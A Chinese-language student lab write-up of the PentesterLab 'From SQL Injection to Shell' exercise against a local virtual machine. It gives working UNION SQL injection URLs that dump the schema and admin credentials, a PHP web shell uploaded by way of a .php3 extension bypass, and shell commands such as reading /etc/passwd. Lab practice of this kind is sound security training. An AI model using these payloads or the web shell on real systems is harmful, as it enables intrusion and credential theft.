




# chap0x07 从SQL注入到Shell
## 一. 实验目的
* 在基于PHP的网站中使用SQL注入并使用它来访问管理页面。攻击者在通过使用它来访问管理界面。
## 二. 攻击步骤
* 指纹：收集有关Web应用程序和正在使用的技术的信息
* SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息
* 访问管理页面和代码执行：访问操作系统和运行命令的最后一步
## 三. 实验步骤
### 1.环境搭建
* 下载镜像 [iso](https://pentesterlab.com/exercises/from_sqli_to_shell/iso)
* 安装虚拟机。
一块网卡，网络host-only模式。


* 启动虚拟机，显示如下界面。


* 查看靶机的IP地址。


* 在攻击者上访问这个IP，出现网站首页，则环境搭建成功。


* 攻击者查看靶机端口



* 连接80端口


### 2.发现SQL漏洞
* 打开网页源代码，可以发现很多php连接。


* 依次访问这些php连接。
```
192.168.56.4/cat.php?id=1
```


```
192.168.56.4/cat.php?id=2
```


```
192.168.56.4/cat.php?id=3
```


```
192.168.56.4/all.php
```




```
192.168.56.4/admin/login.php
```


```
192.168.56.4/cat.php?id=3'
```



发现返回信息出现了MySQL字样。可以推断，使用的数据库是MySQL的。

* 综上，可以分析出，这个实验应该在cat.php中找到SQL注入，在数据库中查询到本不应该查询到的用户登录的账号和密码，完成登录操作。

选择id=2进行注入，因为2-1和1是一样的，存在注入点。

```
192.168.56.4/cat.php?id=2-1
```


### 3.进行SQL注入
* 利用UNION实现SQL注入

原理：UNION前后select语句的列数必须保持一致，如果不一致就会报错。由于一开始发现有三个图片，所以从三列开始尝试。
```
192.168.56.4/cat.php?id=2 union select 1,2,3
```


```
192.168.56.4/cat.php?id=2 union select 1,2,3,4
```


由于当列数为4的时候，可以看到图片，所以可以判定有四列。

* 利用order实现SQL注入

原理：使用order by x 语句。x的值必须小于或等于数据库中的列数。
```
192.168.56.4/cat.php?id=2 order by 4
```


```
192.168.56.4/cat.php?id=2 order by 5
```


所以可以断定，有四列。

### 4.利用union进行SQL注入
* 获取当前数据库版本号：让第二列显示为version。
```
192.168.56.4/cat.php?id=1 union select 1,@@version,3,4
```



* 获取当前用户：让第二列显示为current_user()。
```
192.168.56.4/cat.php?id=1 union select 1,current_user(),3,4
```


* 获取当前数据库名：让第二列显示为database()。
```
192.168.56.4/cat.php?id=1 union select 1,database(),3,4
```


* 通过查看information_schema数据库获得更多信息。

在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。

* 获取当前数据库中所有表的名称
```
192.168.56.4/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables 
```


* 获取当前数据库中所有列的名称
```
192.168.56.4/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns 
```


* 获取当前数据库中表名和列名的对应关系
```
192.168.56.4/cat.php?id=1 union select 1,concat(table_name,':',column_name),3,4 from information_schema.columns 
```


* 获取管理员密码
```
192.168.56.4/cat.php?id=1 union select 1,concat(login,':',password),3,4 from users 
```


* 破解密码
```
8efe310f9ab3efeae8d410a8e0166eb2
```
使用网页上的md5进行解密


* 进行登录


### 5. 上传新文件
* 创建文件
```
touch 1.php
```
* 文件写入一下内容
```
<?php
system($_GET['cmd']);
?>
```
* 上传文件


* 上传失败
名字过短不能上传
.php不能上传


* 重新改名，进行上传，依旧失败


* 将.php文件，改为.php3文件

这里将.php文件改为.php3文件，是利用了Apache的服务器配置缺陷。将.php3解析成.php不需要额外设置，与.php可以操作一致。


* 展示网站源码


### 6. 测试WebShell
* 利用cmd执行任意命令利用脚本
```
196.168.56.4/admin/uploads/12345.php3?cmd=uname
```


* ls获取当前目录的内容 
```
196.168.56.4/admin/uploads/12345.php3?cmd=ls
```


* 获取靶机系统用户列表
```
196.168.56.4/admin/uploads/12345.php3?cmd=cat /etc/passwd
```
注意有一个空格


* 靶机查看用户列表


## 四、参考资料
* [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

* [Apache的服务器配置缺陷](http://php.net/manual/zh/install.unix.apache2.php)

* [from_sql_to_shell.md](https://github.com/choitop/ns/blob/f484bac28f8215205ba8e4bc5f66afdcbf6d4b03/2017-2/LAB_whx/LAB3/from_sql_to_shell.md)

